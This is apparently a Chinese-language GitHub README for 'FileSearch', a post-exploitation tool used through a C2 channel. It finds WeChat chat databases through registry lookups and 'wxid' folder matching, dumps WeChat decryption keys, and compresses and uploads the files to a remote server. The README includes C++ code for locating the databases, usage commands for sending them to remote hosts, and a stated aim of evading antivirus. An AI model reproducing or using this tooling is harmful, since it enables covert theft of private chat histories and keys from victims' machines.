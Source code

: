 # FileSearch

## 更新

### v1.2(暂不开源)
实现效果：
![](https://cdn.nlark.com/yuque/0/2022/png/262397/1665471090145-08f5b557-680f-4c8c-8fce-9574d581f81d.png)


实战中发现全盘查找微信db在c2中非常拉跨，查找等待时间较长，且盘符越多越慢

1、直接读取注册表的键值，wxid关键字匹配拼接路径


```
void getPath(char *dbpath)
{
	char cmd_command[256] = { 0 };
	char regname[] = "Software\\Microsoft\\Windows\\CurrentVersion\\Explorer\\Shell Folders";
	HKEY hKey;
	DWORD dwType = REG_BINARY;
	REGSAM mode = KEY_READ;
	DWORD length = 256;
	int ret = RegOpenKey(HKEY_CURRENT_USER, regname, &hKey);

	ret = RegQueryValueEx(hKey, "Personal", 0, &dwType, (LPBYTE)dbpath, &length);
	strcat(dbpath, "\\WeChat Files");
	//cout << dbpath << endl;

	if (ret == 0) {
		RegCloseKey(hKey);
	}
	else {
		printf("failed to open regedit.%d\n", ret);
	}
}

```

```
void getFileNames(string path, vector<string>& files)
{
	intptr_t hFile = 0;
	//文件信息
	struct _finddata_t fileinfo;
	string p;
	string::size_type idx;

	if ((hFile = _findfirst(p.assign(path).append("\\*").c_str(), &fileinfo)) != -1)
	{
		do
		{
			//如果是目录,匹配文件夹
			if ((fileinfo.attrib & _A_SUBDIR))
			{
				if (strstr(fileinfo.name, "wxid") != NULL)
					files.push_back(p.assign(path).append("\\").append(fileinfo.name));
			}

		} while (_findnext(hFile, &fileinfo) == 0);
		_findclose(hFile);
	}
}

```
2、传输改成socket协议，支持大文件上传，效率很快，需要启动个Server socket
![](https://cdn.nlark.com/yuque/0/2022/png/262397/1665465880719-3ec78718-3e6e-4ac8-87a1-d2751bfdaabf.png)

3、参考https://github.com/Ormicron/Sharp-dumpkey 

远程拉取基址，考虑到免杀性改成了C++代码，
![](https://cdn.nlark.com/yuque/0/2022/png/262397/1665469015290-f07178fb-95a6-4d35-9161-bbf2d4a7da13.png)

```
[+] FileUpload.exe dumpkey
[+] FileUpload.exe send 127.0.0.1 8888
[+] FileUpload.exe upload path 127.0.0.1 8888
```

### v1.1
服务端：python2 http_put.py 80 path 

（win10自带curl.exe，其他系统可以上传一个或者引用socket库）

1、新增全盘查找微信聊天记录db文件并压缩上传到指定服务器

2、压缩本地文件并上传到指定服务器

3、指定盘查找指定文件后缀并输出
```
[+] eg: Filesearch default baidu.com
[+] eg: Filesearch upload C:\MSG0.db baidu.com
[+] eg: Filesearch search C:\ docx

```
## v1.0

```
System Drive are:C:\D:\
Command:FileSearch.exe Drive Keyword
Example:FileSearch.exe C:\ docx
```

![](https://cdn.nlark.com/yuque/0/2020/png/262397/1598583458455-d71cecb3-ef4e-49de-b33e-fe81c55c012b.png)
